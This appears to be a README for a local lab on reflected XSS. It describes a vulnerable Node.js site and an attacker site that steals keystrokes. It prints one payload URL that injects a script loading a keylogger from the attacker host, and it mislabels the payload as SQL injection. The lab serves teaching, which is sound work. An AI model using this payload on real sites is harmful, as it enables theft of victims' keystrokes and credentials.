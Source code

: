 # XSS REFLECTED
"This deals with reflected XSS vulnerabilities. You will find a vulnerable Node.js website and an attacking website. The attacker sends a link to the victim. This link executes a keylogger present on the attacker's site. The keystrokes are transmitted to the attacker's website. The URL of the site is http://localhost:3000, and the URL with the SQL injection sent to the victim is : 
http://localhost:3000/?name=<script src="http://localhost:3001/keylogger.js\"></script>."
